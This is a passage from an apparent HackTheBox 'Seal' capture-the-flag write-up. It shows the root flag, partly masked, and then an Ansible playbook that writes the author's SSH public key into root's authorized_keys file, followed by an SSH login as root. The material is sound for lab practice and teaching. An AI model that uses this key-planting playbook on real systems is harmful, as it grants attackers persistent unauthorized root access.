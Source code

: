
    root@seal:~# cat root.txt
    cfe39341************************



#### Via SSH

I could just as easily create a playbook to put my public SSH key into
the root's `authorized_keys` file:



    - hosts: localhost
      tasks:
      - name: rev
        shell: mkdir -p /root/.ssh; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys



After running this, I can connect as root:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@seal.htb 
    ...[snip]...
    root@seal:~# 







